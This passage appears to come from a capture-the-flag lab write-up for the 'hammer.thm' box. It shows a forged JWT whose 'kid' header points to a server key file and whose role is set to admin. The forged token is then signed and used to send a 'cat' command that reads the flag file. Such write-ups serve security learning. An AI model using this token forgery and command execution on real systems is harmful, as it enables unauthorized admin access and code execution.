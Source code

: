 12. I've changed the `kid` in JWT header to point to the file on the server `/var/www/html/188ade1.key` and the role in the JWT payload to `admin` like:
```sh
#header
{  
    "kid": "/var/www/html/188ade1.key",  
    "typ": "JWT",  
    "alg": "HS256"  
}
#payloads 
{  
    "iss": "http://hammer.thm",  
    "aud": "http://hammer.thm",  
    "iat": 1725629343,  
    "exp": 1725632943,  
    "data": {  
        "user_id": 1,  
        "email": "tester@hammer.thm",  
        "role": "admin"  
    }  
}
```
13. Finally I used the symmetric key generated before to sign my changed JWT in JSON Web Token tab in Burp Repeater and I sent the request with command `cat /home/ubuntu/flag.txt` in the body:
```sh
{"command":"cat /home/ubuntu/flag.txt"}
```
14. And I got the final flag: **[SecondFlag]**